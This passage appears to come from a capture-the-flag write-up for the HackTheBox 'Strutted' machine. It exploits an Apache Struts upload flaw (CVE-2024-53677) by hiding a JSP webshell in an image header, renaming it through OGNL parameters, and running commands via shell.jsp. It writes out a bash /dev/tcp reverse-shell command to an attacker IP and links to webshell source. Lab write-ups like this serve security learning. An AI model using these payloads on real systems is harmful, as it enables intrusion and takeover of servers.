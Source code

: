 
12. The attack path involves embedding a malicious JSP file into the header of an image. Then, by abusing OGNL parameters, we change the file’s name to a JSP file, allowing us to trigger our payloads.

  

13. Here you can get the [webshell JSP file](https://github.com/TAM-K592/CVE-2024-53677-S2-067/blob/ALOK/shell.jsp) which we can use as payload.

  

14. In burpsuite, Intercept the request after uploading an image.

  

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*OwVMLZcfWI-HMaCdlU_vnA.png)

  

15. Add the payload right after the first line of the image header and add OGNL parameter abuse just like in **Step 3**.

  

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*_wg7fB_y7uVfSVviKmSvRQ.png)![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*uOONG09E_x2lRYZGX_Is6Q.png)

  

16. Now we can execute commands using this URL: [http://strutted.htb/shell.jsp?action=cmd&cmd=](http://strutted.htb/shell.jsp?action=cmd&cmd=id){command}.

  

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*vKz1W0Qdy4kztl4ePDllVg.png)

  

## Reverse shell:

--------------

  

17. Now let’s take reverse shell by sending a rev shell script.

  

**_Command — Reverse shell: bash_**

  

```

bash -c "bash -i >& /dev/tcp/10.10.14.73/4444 0>&1"

```

![captionless image](https://miro.medium.com/v2/resize:fit:1094/format:webp/1*nXcf2dIc2MUBC-qYS7ba2Q.png)

  

18. Start a Python server to host the file and use wget to download it.

  

**_Command — Python Server: python_**
